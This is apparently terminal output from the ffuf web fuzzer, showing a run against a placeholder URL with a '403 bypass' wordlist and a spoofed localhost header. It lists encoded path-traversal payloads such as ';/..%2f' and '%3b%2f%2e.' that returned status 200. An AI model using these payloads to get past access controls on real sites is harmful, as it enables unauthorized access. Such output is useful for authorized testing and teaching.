        v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://example.com/PATH
 :: Wordlist         : PATH: /home/coffinxp/payloads/403_url_payloads.txt
 :: Header           : Base-Url: 127.0.0.1
 :: Follow redirects : false
 :: Calibration      : false
 :: Proxy            : http://172.23.96.1:8080
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
 :: Filter           : Response size: 0
________________________________________________

%3b%2f%2e.              [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 977ms]
%2f                     [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 953ms]
%3b%2f..                [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 910ms]
;/%2f%2f../             [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 353ms]
;/%2e.                  [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 358ms]
;/%2f/..%2f             [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 331ms]
;/%2f/../               [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 330ms]
;/.%2e                  [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 329ms]
;/..                    [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 339ms]
;/..%2f                 [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 334ms]
;/..%2f/                [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 347ms]
;/../%2f/               [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 340ms]
;/..%2f//               [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 348ms]
;///..//                [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 359ms]
?                       [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 342ms]
?#                      [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 348ms]
?.php                   [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 340ms]
?;                      [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 356ms]
??                      [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 348ms]
/%2f/                   [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 347ms]
///                     [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 348ms]
//%2f                   [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 350ms]
%2f%2f%2f               [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 344ms]
%2f/%2f                 [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 355ms]
%2f//                   [Status: 200, Size: 1256, Words: 298, Lines: 47, Duration: 350ms]
:: Progress: [236/236] :: Job [1/1] :: 64 req/sec :: Duration: [0:00:04] :: Errors: 0 ::

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________
